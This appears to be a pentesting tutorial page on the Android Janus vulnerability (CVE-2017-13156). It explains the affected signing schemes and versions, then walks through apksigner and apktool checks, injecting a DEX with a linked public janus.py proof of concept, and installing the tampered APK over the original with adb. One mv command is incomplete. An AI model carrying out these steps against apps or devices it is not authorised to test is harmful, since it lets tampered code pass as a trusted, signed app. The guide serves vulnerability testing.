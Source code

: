 # Janus Vulnerability (CVE-2017-13156)

## Whats Janus Vulnerability

A serious vulnerability in Android allows attackers to inject a DEX file into an APK file without affecting the signatures.

## Details

1. &#x20;On device running android version 5.X & 6.X, Apk signature was verified using only v1 scheme Janus vulnerability was found in v1 signing scheme and google released a patch on 2017 December 01 to fix Janus on these android versions. so even though apk is signed only with v1 which can bem run on 5.x & 6.x, if 2017 December 01 patch is installed in the device Janus cannot be exploited.
2. After releasing the patch for Janus, Google released v2 signing scheme and prioritized device to use v2 scheme over v1 scheme if v2 was used along with v1 scheme but they did not integrate the patch into the system until android 8.1. This made possible to exploit Janus on android 7.x & 8.0 also, as long as 2017 December patch is not installed.
3. Applications signed with v2 or v3 along with v1 are also vulnerable to Janus if they are made to run on android versions 5.x & 6.x as it verifies only v1 scheme without installing the patch.
4. Finally v1 scheme was removed and V4 scheme has been introduced in Android 11, Applications that are only signed with v1 scheme will not run on Android 11

## How to Test

* [ ] &#x20;We use [apksigner](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#46c8) tool to find the signature schemes used by the application&#x20;

```bash
apksigner verify -verbose h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>apk  has been signed only with v1, no v2 or v3 signature</p></figcaption></figure>

* [ ] Use [apktool](https://medium.com/mobis3c/setting-up-an-android-pentesting-environment-29991aa0c3f1#37de) to find the min android version on which we can run this application&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>Application can be run on API Level 15(Android 4.0.4 Ice Cream Sandwich), so we can choose any device from <strong>5.x, 6.x, 7.x &#x26; 8.0</strong> to exploit it.</p></figcaption></figure>

```bash
apktool -s d h5.apk && cat h5/apktool.yml | grep minSdk
```

* [ ] Get classes.dex from any other apk&#x20;

```bash
apktool -s d WhatsApp.apk && mv WhatsApp/classes.dex
```

* [ ] To Inject this classes.dex file into our h5 application, we use this exploit code from [**VEO**’s repo](https://raw.githubusercontent.com/V-E-O/PoC/master/CVE-2017-13156/janus.py). Copy the code and create new file named **janus.py** and paste into it

```bash
python janus.py classes.dex h5.apk kal-h5.apk
```

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* [ ] &#x20;Install adb exploit

```
adb install h5.apk
adb install -r kal-h5.apk
```

## Automation

{% embed url="https://github.com/h0tak88r/j88nx" %}

```
# Basic APK analysis
go run main.go -apk path/to/your.apk

# Analysis with custom POC dex file
go run main.go -apk path/to/your.apk -dex path/to/poc.dex
```

## Resources

{% embed url="https://medium.com/mobis3c/exploiting-apps-vulnerable-to-janus-cve-2017-13156-8d52c983b4e0" %}
